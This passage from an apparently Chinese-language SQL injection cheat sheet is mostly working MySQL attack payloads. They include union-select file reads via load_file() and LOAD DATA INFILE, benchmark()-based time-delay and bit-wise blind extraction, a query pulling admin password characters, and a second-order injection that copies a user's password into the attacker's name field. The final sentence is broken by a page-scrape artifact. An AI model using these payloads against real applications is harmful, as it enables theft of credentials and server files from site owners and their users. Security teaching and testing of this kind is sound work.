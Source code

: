     *   `SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`
*   文件读取
    
    *   `query.php?user=1+union+select+load_file(0x63...),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
*   MySQL读取文件内容
    
    *   **默认这个功能是没开启的！**
        
        ```
        create table foo( line blob ); 
        load data infile 'c:/boot.ini' into table foo; 
        select * from foo;
        
        ```
*   MySQL里的各种延时
    
*   `select benchmark( 500000, sha1( 'test' ) ); query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
    
*   `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' );`
    
*   **遍历数据，暴力猜解**
    *   `select if( (ascii(substring(user(),1,1)) >> 7) & 1,benchmark(100000,sha1('test')), 'false' );`

#### MySQL中好用的函数

*   `MD5()`
    
    MD5哈希
    
*   `SHA1()`
    
    SHA1哈希
    
*   `PASSWORD()`
    
*   `ENCODE()`
    
*   `COMPRESS()`
    
    压缩数据，在盲注时读取大量数据很好用
    
*   `ROW_COUNT()`
    
*   `SCHEMA()`
    
*   `VERSION()`
    
    跟`@@version`是一样的
    

### SQL注入的高级使用

一般来说你在某个地方进行SQL注入并期望它没有过滤非法操作，而这则是一般人注意不到的层面（hidden layer problem）

> Name:`' + (SELECT TOP 1 password FROM users ) + '`
> 
> Email :`xx@xx.com`

[[email protected]](http://drops.com:8000/cdn-cgi/l/email-protection)骤，之后它就会把第一个用户的密码写进你的name里面。
